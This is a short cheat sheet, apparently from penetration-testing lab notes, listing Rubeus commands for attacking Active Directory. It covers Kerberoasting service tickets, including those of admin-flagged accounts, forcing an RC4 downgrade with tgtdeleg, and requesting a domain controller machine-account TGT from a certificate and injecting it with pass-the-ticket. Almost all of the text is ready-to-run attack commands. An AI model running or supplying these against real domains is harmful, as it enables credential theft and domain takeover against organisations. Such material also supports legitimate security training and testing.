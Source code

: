

Getting stats
```powershell-session
.\Rubeus.exe kerberoast /stats
```

Extracting tickets with admincount flag set
```powershell-session
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

Extracting tickets for specific user account
```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

Using tgtdeleg to downgrade aes to rc4

```.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap```

Requesting TGT and Performing PTT with DC01$ Machine Account
```powershell-session
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```
